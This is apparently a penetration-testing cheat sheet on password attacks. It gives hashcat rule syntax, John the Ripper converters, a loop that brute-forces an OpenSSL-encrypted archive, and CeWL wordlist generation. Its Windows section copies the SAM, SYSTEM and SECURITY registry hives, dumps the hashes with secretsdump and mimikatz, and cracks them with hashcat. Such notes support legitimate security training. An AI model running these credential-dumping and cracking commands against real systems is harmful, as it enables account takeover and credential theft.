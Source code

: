 # Password Attacks

### Generating Password Mutations

- Followig are the symbols used to create `rules` in hashcat.

```shell
:	    Do nothing.
l	    Lowercase all letters.
u	    Uppercase all letters.
c	    Capitalize the first letter and lowercase others.
sXY	    Replace all instances of X with Y.
$!	    Add the exclamation character at the end.
```

- Command to create wordlist using rules:

```shell
# Rules are available at /usr/share/hashcat/rules/
hashcat --force password.list -r rule --stdout | sort -u > mut_password.list
```

### Cracking Protected Archives

```shell
# Use John to crack protected files
office2john, ssh2john, pdf2john, zip2john, bitlocker2john etc

# Cracking OpenSSL Encrypted Archives
## Using a for-loop to Display Extracted Contents
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in $NAME.gzip -k $i 2>/dev/null| tar xz;done
```

### Generating Wordlists Using CeWL

```shell
cewl website_link -d 4 -m 6 --lowercase -w output_file
```


## Windows Password Attacks

### Attacking SAM

- `hklm\sam` Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.
- `hklm\system` Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
- `hklm\security` Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

```shell
# Using reg.exe save to Copy Registry Hives
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

# Dumping hashes from the hives
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL

# Using mimikatz
lsadump::sam

# Cracking hashes
sudo hashcat -m 1000 hashes_file wordlist
```